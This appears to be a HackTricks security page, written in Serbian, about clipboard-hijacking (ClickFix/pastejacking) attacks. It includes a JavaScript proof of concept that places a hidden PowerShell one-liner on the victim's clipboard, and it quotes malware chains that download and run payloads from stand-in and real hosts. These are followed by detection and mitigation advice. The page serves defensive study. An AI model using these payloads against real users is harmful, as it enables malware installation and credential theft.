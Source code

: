 # Napadi na Preuzimanje Klipborda (Pastejacking)

{{#include ../../banners/hacktricks-training.md}}

> "Nikada ne lepite ništa što niste sami kopirali." – stara, ali još uvek važeća preporuka

## Pregled

Preuzimanje klipborda – takođe poznato kao *pastejacking* – koristi činjenicu da korisnici rutinski kopiraju i lepe komande bez da ih pregledaju. Zlonamerna veb stranica (ili bilo koji kontekst sposoban za JavaScript, kao što su Electron ili Desktop aplikacije) programatski postavlja tekst pod kontrolom napadača u sistemski klipbord. Žrtve su podstaknute, obično pažljivo osmišljenim uputstvima socijalnog inženjeringa, da pritisnu **Win + R** (Run dijalog), **Win + X** (Brzi pristup / PowerShell), ili da otvore terminal i *lepe* sadržaj klipborda, odmah izvršavajući proizvoljne komande.

Pošto **nema preuzetih fajlova i nijedna priloga nije otvorena**, tehnika zaobilazi većinu bezbednosnih kontrola e-pošte i veb sadržaja koje prate priloge, makroe ili direktno izvršavanje komandi. Napad je stoga popularan u phishing kampanjama koje isporučuju komercijalne porodice malvera kao što su NetSupport RAT, Latrodectus loader ili Lumma Stealer.

## JavaScript Dokaz Koncepta
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Starije kampanje su koristile `document.execCommand('copy')`, dok se novije oslanjaju na asinhroni **Clipboard API** (`navigator.clipboard.writeText`).

## Tok ClickFix / ClearFake

1. Korisnik posećuje sajt sa tipografskom greškom ili kompromitovan sajt (npr. `docusign.sa[.]com`)
2. Umetnuti **ClearFake** JavaScript poziva `unsecuredCopyToClipboard()` pomoćnu funkciju koja tiho čuva Base64-enkodiranu PowerShell jedinstvenu komandu u clipboard-u.
3. HTML uputstva govore žrtvi: *“Pritisnite **Win + R**, nalepite komandu i pritisnite Enter da biste rešili problem.”*
4. `powershell.exe` se izvršava, preuzimajući arhivu koja sadrži legitimni izvršni fajl plus zlonamerni DLL (klasično DLL sideloading).
5. Loader dekriptuje dodatne faze, umetne shellcode i instalira postojanost (npr. zakazani zadatak) – na kraju pokreće NetSupport RAT / Latrodectus / Lumma Stealer.

### Primer NetSupport RAT lanca
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (legitimni Java WebStart) pretražuje svoj direktorijum za `msvcp140.dll`.
* Maliciozni DLL dinamički rešava API-je sa **GetProcAddress**, preuzima dva binarna fajla (`data_3.bin`, `data_4.bin`) putem **curl.exe**, dekriptuje ih koristeći rolling XOR ključ `"https://google.com/"`, injektuje konačni shellcode i raspakuje **client32.exe** (NetSupport RAT) u `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. Preuzima `la.txt` sa **curl.exe**
2. Izvršava JScript downloader unutar **cscript.exe**
3. Preuzima MSI payload → postavlja `libcef.dll` pored potpisane aplikacije → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer putem MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** poziv pokreće skriveni PowerShell skript koji preuzima `PartyContinued.exe`, ekstrahuje `Boat.pst` (CAB), rekonstruiše `AutoIt3.exe` putem `extrac32` i spajanja fajlova, i na kraju pokreće `.a3x` skript koji exfiltrira kredencijale pretraživača na `sumeriavgv.digital`.

## Detekcija i Lov

Plave ekipe mogu kombinovati telemetriju clipboard-a, kreiranja procesa i registra kako bi precizno odredile zloupotrebu pastejacking-a:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` čuva istoriju **Win + R** komandi – tražite neobične Base64 / obfuskovane unose.
* ID sigurnosnog događaja **4688** (Kreiranje procesa) gde je `ParentImage` == `explorer.exe` i `NewProcessName` u { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Događaj ID **4663** za kreiranje fajlova pod `%LocalAppData%\Microsoft\Windows\WinX\` ili privremenim folderima neposredno pre sumnjivog događaja 4688.
* EDR senzori clipboard-a (ako su prisutni) – korelacija `Clipboard Write` odmah nakon novog PowerShell procesa.

## Mogućnosti ublažavanja

1. Ojačavanje pretraživača – onemogućiti pristup pisanju u clipboard (`dom.events.asyncClipboard.clipboardItem` itd.) ili zahtevati korisnički gest.
2. Bezbednosna svest – podučiti korisnike da *kucaju* osetljive komande ili ih prvo nalepite u tekstualni editor.
3. PowerShell Constrained Language Mode / Politika izvršenja + Kontrola aplikacija za blokiranje proizvoljnih jedne-linijskih komandi.
4. Mrežne kontrole – blokirati odlazne zahteve ka poznatim pastejacking i malware C2 domenima.

## Povezani trikovi

* **Discord Invite Hijacking** često zloupotrebljava isti ClickFix pristup nakon što namami korisnike u zloćudni server:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Reference

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
